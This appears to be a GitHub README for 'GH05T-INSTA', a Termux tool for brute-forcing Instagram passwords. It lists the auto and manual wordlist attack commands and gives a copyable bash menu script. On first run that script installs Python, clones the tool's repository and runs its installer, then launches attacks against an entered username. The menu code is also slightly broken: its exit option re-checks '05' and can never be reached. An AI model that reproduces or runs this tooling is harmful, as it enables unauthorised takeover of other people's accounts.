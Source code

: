 # GH05T SCN

* Included Developer and Cookies

`Never modify the GH05T-INSTA tool`

<b>AUTO ATTACK</b>

```
$ gh05t --user username --pass 20
```

<b>MANUAL ATTACK</b>

```
$ gh05t --user username --passadd pwdlocation-and-name
```

<b>Brute Force error</b>

```
$ gh05t --error
```

<b>Uninstall gh05t</b>

```
$ gh05t uninstall all
```

<b>CHECKING FILES</b>

```
$ gh05t --check
```

<b>Update GH05T-INSTA Tool</b>

```
$ gh05t --update
```

<b>Display Usernames</b>

```
$ gh05t --cookies
```

<b>To contact the developers</b>

```
$ gh05t developer
```

<b>Help Command</b>

```
$ gh05t --help
```

```
CONTRIBUTE  :  GH05T-HUNTER5
```

COPY THIS CODE ⬇️

Collaborators  :  GH05T-HUNTER5

```
Add us to your code   :   GH05T-HUNTER5
```

`
Sie können dieses Banner auch ändern, wenn Sie möchten
`

`
Change ban
`

`
Modify yourself ⏬
`

```bash
function ban () {
clear
echo -e " \033[0;32m   ██╗███╗   ██╗███████╗████████╗ █████╗"
echo -e " \033[0;32m   ██║████╗  ██║██╔════╝╚══██╔══╝██╔══██╗"
echo -e " \033[0;32m   ██║██╔██╗ ██║███████╗   ██║   ███████║ "
echo -e " \033[0;32m   ██║██║╚██╗██║╚════██║   ██║   ██╔══██║"
echo -e " \033[0;32m   ██║██║ ╚████║███████║   ██║   ██║  ██║"
echo -e " \033[0;32m   ╚═╝╚═╝  ╚═══╝╚══════╝   ╚═╝   ╚═╝  ╚═╝"
echo -e " \033[0;31m    Coded  :  Your name "
}
function main () {
if [ -d /data/data/com.termux/files/home/.gh05t ]; then
clear
ban
sleep 1
echo -e "    \033[0;31m01  Auto Attack"
echo -e "    \033[0;31m02  Manual Attack"
echo -e "    \033[0;31m03  Update"
echo -e "    \033[0;31m04  Error"
echo -e "    \033[0;31m05  Check "
echo -e "    \033[0;31m06  Developer "
echo -e "    \033[0;31m07  Username "
echo -e "    \033[0;31m99  Help"
echo -e "    \033[0;31m00  Exit"
read -p "      what you want  : " what
if [ $what = "01" ] || [ $what = "1" ]; then
ban
read -p " Enter Your Instagram Username : " user
gh05t --user $user --pass 18
elif [ $what = "02" ] || [ $what = "2" ]; then
ban
read -p " Enter Your Instagram Username : " user
read -p " Enter your password location along with name : " pass
gh05t --user $user --passadd $pass
elif [ $what = "03" ] || [ $what = "3" ]; then
gh05t --update
elif [ $what = "04" ] || [ $what = "4" ]; then
gh05t --error
elif [ $what = "05" ] || [ $what = "5" ]; then
gh05t --check
elif [ $what = "06" ] || [ $what = "6" ]; then
clear
termux-open wa.me/+0000000000 {your number}
elif [ $what = "07" ] || [ $what = "7" ]; then
gh05t --cookies 
elif [ $what = "99" ]; then
gh05t --help
elif [ $what = "05" ]; then
clear
exit
else
echo ""
clear
echo " Try Again "
sleep 3
main
fi
else
clear
ban
echo -e " \033[0;31m   please wait"
sleep 5
pkg install python -y
git clone https://github.com/GH05T-HUNTER5/GH05T-INSTA
cd GH05T-INSTA
python install.py
clear
main
exit
fi
}
main
```
